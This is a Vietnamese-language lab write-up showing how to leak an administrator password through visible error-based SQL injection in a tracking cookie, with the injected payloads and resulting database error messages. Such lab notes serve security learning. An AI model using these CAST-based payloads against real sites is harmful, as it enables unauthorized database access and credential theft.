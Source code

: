


## Lab: Visible error-based SQL injection

**END goal** Tìm cách leak password của tài khoản administrator sau đó log in.

- Khi ta thử thêm vào sau trackingId 1 quote thì web báo về:

![alt text](./img/lab12-1.png)

==>Ta biết được thông tin là kí tự mong muốn của nó là char và cấu trúc SQL query của nó sẽ có dạng:

```SQL SELECT * FROM tracking WHERE id = '0Fhv4wPNNEk31yt4''```

==>Ta suy đoán khi ta inject 1 input lỗi vào server thì server sẽ trả về các alarm để ta sửa chữa

==>Lợi dụng điều này, ta sẽ dùng để biết được password của administrator

-Thử payload: ```AND 1 = CAST((SELECT FROM users LIMIT 1) AS int)--```

==>Trả về:

```Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '0Fhv4wPNNEk31yt4' AND 1 = CAST((SELECT FROM users WHERE user'. Expected  char```


Nôm na là Chuỗi kí tự chưa kết thúc bắt đầu ở vị trí 95

==>Suy đoán là server chỉ thực hiện 1 hành động cho 1 query duy nhất.

==>Xóa cái TrackingId đi.

![alt text](./img/lab12-2.png)

==>Lấy được username administrator

==>Tương tự lấy password của administrator, ta sử dụng payload:

 ```AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)```

```